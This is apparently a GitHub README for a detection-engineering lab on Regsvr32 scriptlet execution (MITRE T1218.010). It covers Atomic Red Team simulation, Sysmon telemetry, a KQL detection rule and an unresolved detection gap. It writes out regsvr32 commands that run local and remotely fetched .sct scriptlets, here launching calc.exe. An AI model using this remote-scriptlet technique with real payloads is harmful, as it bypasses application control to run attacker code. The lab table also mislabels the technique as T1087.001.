



# T1218.010 - Regsvr32 Scriptlet Execution

## Overview

This project demonstrates the investigation of **Regsvr32 Scriptlet Execution** (MITRE ATT&CK **T1218.010**), a technique that abuses the legitimate Windows utility **regsvr32.exe** to execute remote or local COM scriptlets (.sct).

Regsvr32 is a trusted Microsoft-signed binary (LOLBin) commonly abused by attackers to execute arbitrary code while bypassing application control policies.

During this project, the attack was successfully simulated using Atomic Red Team, Sysmon telemetry was investigated, and a custom Elastic detection rule was developed.

Although the expected telemetry was successfully collected, the custom detection could not be validated due to a detection gap identified during testing.

---
# Lab Environment

| Component | Value |
|-----------|-------|
| SIEM | Elastic Stack 9.4 |
| Endpoint | Windows 10 Pro |
| Telemetry | Sysmon + Elastic Agent |
| Attack Framework | Atomic Red Team |
| Technique | MITRE ATT&CK T1087.001 |

---

# Attack Simulation

The attack was simulated using **Atomic Red Team**.

### Local COM Scriptlet Execution

```powershell
Invoke-AtomicTest T1218.010 -TestNumbers 1
```

This test executes:

```cmd
regsvr32.exe /s /u /i:"C:\AtomicRedTeam\atomics\T1218.010\src\RegSvr32.sct" scrobj.dll
```

### Remote COM Scriptlet Execution

```powershell
Invoke-AtomicTest T1218.010 -TestNumbers 2
```

This test executes:

```cmd
regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct scrobj.dll
```

Both tests successfully launched **calc.exe**, confirming successful code execution through Regsvr32.



---

# Investigation

Sysmon successfully captured the attack as **Event ID 1 (Process Create)**.

Important telemetry included:

| Field | Value |
|--------|-------|
| Image | `C:\Windows\System32\regsvr32.exe` |
| OriginalFileName | `REGSVR32.EXE` |
| ParentImage | `C:\Windows\System32\cmd.exe` |
| User | `CORP\Administrator` |
| CommandLine | `regsvr32.exe /s /u /i:<scriptlet> scrobj.dll` |

The following behavioral indicators were observed:



- execution of a trusted Microsoft LOLBin
- use of the `/i:` parameter
- loading of `scrobj.dll`
- execution of a local or remote scriptlet (.sct)
- spawning of `calc.exe`

---

# Detection Strategy

The objective was to detect suspicious Regsvr32 executions commonly associated with Scriptlet Execution.

The custom detection focused on:

- Regsvr32 process creation
- Scriptlet execution (`/i:`)
- Usage of `scrobj.dll`

---

# Custom Detection Rule

The following detection logic was developed:

```kql
event.code:"1" and
winlog.event_data.Image:"C:\Windows\System32\regsvr32.exe" and
winlog.event_data.CommandLine:"scrobj.dll" and
winlog.event_data.CommandLine:"/i:"
```



---

# Detection Gap

During validation, the custom detection rule did not generate alerts despite the attack being successfully executed.

The following observations were made during troubleshooting:

- Atomic Red Team successfully executed both Regsvr32 tests.
- Sysmon generated Process Create (Event ID 1) events.
- Events were successfully ingested into Elasticsearch.
- Events were fully searchable in Kibana Discover.
- All expected telemetry fields were populated, including:
  - `Image`
  - `OriginalFileName`
  - `CommandLine`
  - `ParentImage`
  - `ParentCommandLine`
- Multiple KQL query variations were tested using:
  - `winlog.event_data.Image`
  - `winlog.event_data.OriginalFileName`
  - `winlog.event_data.CommandLine`
  - `message`
- Rule executions completed successfully but consistently returned **0 candidate alerts**.

To verify that the issue was not related to the Elastic Detection Engine itself, previously developed custom detections were re-tested.

Successful detections included:

- Native Windows Utility File Download (T1105)
- Windows Event Log Clearing (T1562.001)
- Local Account Discovery (T1087.001)
- PowerShell Encoded Command Execution (T1059.001)

These detections continued to generate alerts successfully, confirming that:

- Elastic Detection Engine was functioning correctly
- Sysmon telemetry collection was working properly
- Elastic Agent ingestion pipeline was operational
- previously created detection rules continued to work as expected

Based on the collected evidence, the inability to validate this detection appears to be specific to the Regsvr32 telemetry evaluated in this lab environment.

---


# Detection Validation

Although the custom rule could not be successfully validated, the investigation itself confirmed that telemetry collection and ingestion were functioning correctly.

| Validation Step | Result |
|-----------------|--------|
| Atomic Red Team execution | ✅ Successful |
| Sysmon Event ID 1 generated | ✅ |
| Event searchable in Kibana Discover | ✅ |
| Required telemetry fields populated | ✅ |
| Rule executed successfully | ✅ |
| Candidate alerts generated | ❌ No |
| Detection validated | ❌ Detection Gap Identified |

---

# Detection Improvements

Possible future improvements include:

- validating the detection on newer Elastic Stack releases
- comparing results with Sigma-based detections
- testing alternative Regsvr32 execution patterns
- investigating whether ECS field normalization changes the detection behavior
- comparing behavior across different Windows and Sysmon versions

---

# Conclusion

This project demonstrates that detection engineering involves more than simply writing detection rules.

A successful workflow requires validating telemetry collection, confirming data ingestion, testing multiple detection strategies, and documenting situations where expected detections cannot be reproduced.

Although the custom Regsvr32 detection could not be validated within this lab environment, the investigation successfully isolated the issue and confirmed that the surrounding Elastic infrastructure and previously developed detections continued to function correctly.


